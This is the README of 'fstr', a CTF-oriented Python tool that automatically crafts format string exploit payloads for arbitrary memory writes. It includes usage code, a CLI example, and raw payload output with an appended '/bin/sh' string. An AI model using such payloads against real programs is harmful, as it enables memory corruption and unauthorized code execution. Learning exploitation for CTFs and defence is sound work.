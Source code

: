 # fstr: Automatic format string payloads
fstr is a powerful, lightweight tool which instantly generates payloads for arbitrary writes using format string vulnerabilities. Unlike other automated payload generators, fstr writes all addresses to the end of the payload instead of the beginning to make sure that the vulnerable printf acutally reaches all the format specifiers.
![demo](images/demo.png)

# Installation
Create a virtual environment if you haven't already:
```
python3 -m venv .venv
. .venv/bin/activate
```
Then install:
```
git clone https://github.com/TheKrizzler/fstr.git
pip3 install ./fstr
```
# Usage
This tool is primarily meant as a python library, but it also has a CLI.
## Python
To start off, create either a `FormatString64` or `FormatString32` object with the following arguments: writes, offset, append.  
  
Simply use the `.craft()` method to create the payload. This method will return the payload as a bytestring, so it can be saved and used later.
```python
from fstr import FormatString64

addr = 0x7fffffffdc00
data = 0x4011ae

fmtstr = FormatString64(writes={addr:data},offset=6,append='/bin/sh\0')
payload = fmtstr.craft()
```
`write`: Takes a dictionary containing all desired writes.  
`offset`: An integer representing the offset at which your own input can be found using a format string vulnerablity. **The payload will not work if the offset is incorrect**   
`append`: A string to append to the payload. Does the exact same thing as appending text manually.  
## CLI
Run the following command to see the help menu.
```
$ fstr -h
usage: fstr [-h] -w WRITE --arch {32,64} [-o OFFSET] [-a APPEND] [-r]

options:
  -h, --help            show this help message and exit
  -w WRITE, --write WRITE
                        REQUIRED - Specify a single address:data pair in hex, i.e 0x404000:0x1337. Can
                        be used multiple times.
  --arch {32,64}        REQUIRED - Specify either 32-bit or 64-bit architecture
  -o OFFSET, --offset OFFSET
                        Specify the offset at which your input is found using a format string vulnerability
  -a APPEND, --append APPEND
                        Specify a string to append to the payload
  -r, --raw             Outputs the only final payload as raw bytes.
```
Example use:
```
$ fstr --arch 64 -w 0x404000:0x1337 -o 6 -a '/bin//sh'
  __       _         
 / _|     | |        
| |_  ___ | |_  _ __ 
|  _|/ __|| __|| '__|
| |  \__ \| |_ | |   
|_|  |___/ \__||_|   
by @TheKrizzler
[*] b'%9$hn%10$n%4919x%11$hn..\x02@@\x00\x00\x00\x00\x00\x04@@\x00\x00\x00\x00\x00\x00@@\x00\x00\x00\x00\x00/bin//sh'
[*] Length: 56

```
# Disclaimer
fstr is a tool designed exclusively for use in Capture The Flag (CTF) competitions and educational purposes. It is not intended for any illegal or malicious activities. The creators and distributors of fstr do not condone or support the use of this tool for unauthorized access or any activities that violate applicable laws and regulations. Users are responsible for ensuring that their use of fstr complies with all relevant legal requirements.
